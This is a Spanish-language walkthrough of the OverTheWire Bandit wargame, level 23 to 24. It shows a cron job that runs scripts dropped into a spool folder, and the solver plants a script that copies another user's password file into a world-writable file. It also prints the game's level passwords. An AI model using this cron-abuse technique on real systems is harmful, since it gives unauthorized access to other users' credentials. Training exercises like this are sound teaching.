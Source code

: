 
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos Acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
```bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/crpnjob_bandit24
cat: /etc/cron.d/crpnjob_bandit24: No such file or directory
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ 
bandit23@bandit:/tmp/kd$ ls
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls -la
total 104
drwxrwxr-x  2 bandit23 bandit23  4096 Feb 24 23:01 .
drwxrwx-wt 17 root     root     98304 Feb 24 23:02 ..
-rw-rw-rw-  1 bandit23 bandit23     0 Feb 24 23:01 password
-rwxrwxr-x  1 bandit23 bandit23    49 Feb 24 23:01 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 104
drwxrwxr-x  2 bandit23 bandit23  4096 Feb 24 23:01 .
drwxrwx-wt 19 root     root     98304 Feb 24 23:02 ..
-rw-rw-rw-  1 bandit23 bandit23     0 Feb 24 23:01 password
-rwxrwxr-x  1 bandit23 bandit23    49 Feb 24 23:01 script.sh
bandit23@bandit:/tmp/kd$ ls -la
total 108
drwxrwxr-x  2 bandit23 bandit23  4096 Feb 24 23:01 .
drwxrwx-wt 20 root     root     98304 Feb 24 23:05 ..
-rw-rw-rw-  1 bandit23 bandit23    33 Feb 24 23:03 password
-rwxrwxr-x  1 bandit23 bandit23    49 Feb 24 23:01 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$ 


```
## Notas adicionales
| comando |  descripcion|
|---|----|
|touch|crea un archivo|


## Referencias



